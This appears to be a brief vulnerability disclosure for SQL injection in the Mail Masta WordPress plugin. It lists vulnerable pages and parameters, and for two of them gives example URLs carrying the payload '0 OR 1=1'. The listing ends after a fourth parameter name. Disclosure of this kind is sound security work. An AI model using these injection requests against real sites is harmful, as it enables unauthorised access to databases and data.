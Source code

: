 Wordpress-Plugin-Mail-Masta-SQL-Injection
=========================================
Page: /inc/lists/csvexport.php
GET Parameter: list_id
http://<wordpress application>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


Page: /inc/lists/view-list.php (Requires authentication to Wordpress admin)
GET Parameter: filter_list
http://<wordpress application>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


Page: /inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)
POST Parameter: camp_id
http://<wordpress application>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


Page: /inc/campaign_save.php (Requires authentication to Wordpress admin)
POST Parameter: list_id
